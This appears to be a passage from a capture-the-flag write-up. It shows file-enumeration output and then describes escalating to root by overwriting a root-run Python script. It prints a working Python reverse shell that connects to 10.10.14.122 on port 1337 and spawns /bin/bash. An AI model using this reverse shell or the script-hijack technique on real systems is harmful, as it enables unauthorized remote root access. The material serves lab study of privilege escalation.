 ```bash
[-] Files owned by our user:
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 /scripts/test.py
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec  4  2017 /home/scriptmanager/.profile
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec  4  2017 /home/scriptmanager/.bashrc
-rw------- 1 scriptmanager scriptmanager 2 Dec  4  2017 /home/scriptmanager/.bash_history
-rw-r--r-- 1 scriptmanager scriptmanager 220 Dec  4  2017 /home/scriptmanager/.bash_logout
-rw-r--r-- 1 scriptmanager scriptmanager 5988 Feb 13 09:27 /tmp/results_as_scriptmanager.txt
```
There is a folder in the root directory called scripts. Looking at test.py shows that it rights to a file test.txt. test.txt is owned by root so, this python script is probably ran every few minutes as root. Thus, I have semi-code execution as root. I write a small Python reverse shell and catch the root shell:
```Python
#!/usr/bin/python3

import socket,pty,sys,os

s = socket.socket()
s.connect(("10.10.14.122",1337))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```